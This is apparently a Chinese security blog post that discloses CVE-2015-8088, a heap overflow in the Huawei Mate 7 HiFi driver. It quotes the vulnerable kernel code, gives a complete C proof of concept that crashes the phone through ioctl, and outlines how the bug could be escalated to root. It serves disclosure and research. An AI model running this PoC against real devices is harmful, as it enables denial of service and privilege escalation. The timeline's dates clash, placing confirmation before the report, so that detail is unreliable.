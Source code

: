 ```yaml
---
layout: post
title: "CVE-2015-8088: 华为智能手机HiFi驱动堆溢出"
date: 2015-12-12 00:50:03
summary: "在华为Mate 7手机中，/dev/hifi_misc 模块允许在用户态下修改内核态的内存数据，它可能导致系统崩溃或者权限提升。"
categories: system-security
---
```


Shawn：感谢Pray3r的分享，驱动一直以来都是linux内核的重灾区，要以不断修复bug的方式去防御漏洞几乎是1990年代的方案，另外一方面，作为厂商也应该加大代码审计的投入。这篇分析的[英文版已经分享到了DNFWAH Issue 5](https://raw.githubusercontent.com/citypw/DNFWAH/master/5/d5_0x03_DNFWAH_cve-2015-8088-heap-overflow-analysis.txt)上。

By Pray3r

### Description
`/dev/hifi_misc` 是用户空间到内核空间中Hisi 芯片的一个接口，该接口和Hifi相关。我们看到`drivers/hisi/hifidsp/hifi_lpp.c`中的代码，攻击者可以在用户空间下，可以使用`HIFI_MISC_IOCTL_WRITE_PARAMS`参数，并通过调用`ioctl()`执行到该代码路径：
{% highlight html %}
static long hifi_misc_ioctl(struct file *fd, unsigned int cmd, unsigned long arg)
{
[...]
	switch(cmd) {
		[...]
		case HIFI_MISC_IOCTL_WRITE_PARAMS : /* write algo param to hifi*/
			ret = hifi_dsp_write_param(arg);
		        break;
		[...]
	}
[...]
}
{% endhighlight %}
之后，`hifi_dsp_write_param()`函数被调用，它的参数来自用户空间：

{% highlight html %}
int hifi_dsp_write_param(unsigned long arg)
{
	int ret = OK;
	phys_addr_t hifi_param_phy_addr = 0;
	void*		hifi_param_vir_addr = NULL;
	CARM_HIFI_DYN_ADDR_SHARE_STRU* hifi_addr = NULL;
	struct misc_io_sync_param para;
[...]
	if (copy_from_user(&para, (void*)arg, sizeof(struct misc_io_sync_param))) {  // arg --> para
		loge("copy_from_user fail.\n");
		ret = ERROR;
		goto error1;
	}
[...]
	hifi_param_vir_addr = (unsigned char*)ioremap(hifi_param_phy_addr, SIZE_PARAM_PRIV); // heap alloc
	if (NULL == hifi_param_vir_addr) {
		loge("hifi_param_vir_addr ioremap fail\n");
		ret = ERROR;
		goto error2;
	}
[...]
	ret = copy_from_user(hifi_param_vir_addr, para.para_in, para.para_size_in); // heap overflow
	if ( ret != 0) {
		loge("copy data to hifi error! ret = %d", ret);
	}
[...]
}
{% endhighlight %}

参数`arg`是一个结构体指针，指向用户空间的内存。`hifi_dsp_write_param()`函数初始化之后，使用`copy_from_user()`将用户空间的数据`(arg)`拷贝到内核空间中`(para)`。注意，它没做任何验证，就将用户空间下的所用的成员变量拷贝到内核空间中。`para`结构如下：

{% highlight html %}
struct misc_io_sync_param {
	void *                  para_in;          
	unsigned int            para_size_in;      
	void *                  para_out;          
	unsigned int            para_size_out;  
};
{% endhighlight %}
紧接着，又调用了`copy_from_user(hifi_param_vir_addr,
  para.para_in, para.para_size_in)`

- `hifi_param_vir_addr`指向一块由`ioremap()`分配的堆内存，这块堆内存的大小为`SIZE_PARAM_PRIV`(200 * 1024)字节。
- `para.para_in`指针由用户空间控制，它是存储数据的内存。
- `para.para_size_in`是一个`unsigned int`由用户空间控制，它是`para.para_in`的大小。

然而，代码中没有对`para.para_in`和`para.para_size_in`进行验证，如果`para.para_size_in`大于`200 * 1024`,例如`300 * 1024`，将产生一个堆溢出。PoC如下：

{% highlight html %}
/*
 *
 *  HuaWei Mate7 hifi driver Poc
 *
 *  Writen by pray3r<pray3r.z@gmail.com>
 *
 */

#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>

#define HIFI_MISC_IOCTL_WRITE_PARAMS    _IOWR('A', 0x75, struct misc_io_sync_param)

struct misc_io_sync_param {
	void *                  para_in;           
	unsigned int            para_size_in;       
	void *                  para_out;           
	unsigned int            para_size_out;   
};

int main(int arg, char **argv)
{
	int fd; 
	void *in = malloc(300 * 1024);
	void *out = malloc(100);
	struct misc_io_sync_param poc;

	poc.para_in = in;
	poc.para_size_in = 300 * 1024;
	poc.para_out = out;
	poc.para_size_out = 100;

	fd = open("/dev/hifi_misc", O_RDWR);

	ioctl(fd, HIFI_MISC_IOCTL_WRITE_PARAMS, &poc);

	free(in);
	free(out);

	return 0;
}
{% endhighlight %}

执行这个PoC将导致Mate 7崩溃，请注意，该PoC至少需要在audio或system用户下执行，因为`/dev/hifi_misc`在audio和system用户下才有可写的权限。

### Impact
第一，设置一个很大的值给`para.para_size`，手机会崩溃；

第二，如果`para.para_in`指向一个内核结构，使用`heap fengshui`技术可能被利用；

第三，可以使用类似堆喷射`thread_info`，攻击者可能获取到手机的root权限。

`/dev/hifi_misc`只有至少在audio或system用户下才有可写权限，所以攻击者想利用该漏洞获取到root权限，可能需要先利用其它漏洞获取到audio或system权限，再去获取root权限。

该利用方式类似于之前Keen Team发布的Mate 7的root工具的利用方式：   
1. [http://www1.huawei.com/en/security/psirt/security-bulletins/security-advisories/hw-414174.htm](http://www1.huawei.com/en/security/psirt/security-bulletins/security-advisories/hw-414174.htm)   
2. [http://forum.xda-developers.com/mate-7/general/wip-mate-7-root-bl-unlock-t2995086](http://forum.xda-developers.com/mate-7/general/wip-mate-7-root-bl-unlock-t2995086)   

### Affected

{% highlight html %}
Model   : HUAWEI MT7-TL10
Version : MT7-TL10V100R001CHNC00B133
Android : 4.4.2
Kernel  : 3.10.30-00015-g049a08f
{% endhighlight %}
  其它类似的华为手机可能也受影响。

### Patch

参考华为官网的信息：   
 [http://www1.huawei.com/en/security/psirt/security-bulletins/security-advisories/hw-460347.htm](http://www1.huawei.com/en/security/psirt/security-bulletins/security-advisories/hw-460347.htm)

### TimeLine

 Sep 28 2015 - Report sent to Huawei PSIRT   
 Sep 10 2015 - Huawei confirmed the security issues   
 Nov 04 2015 - Huawei fixed and public the security issues   
 Nov 09 2015 - Update CVE number   
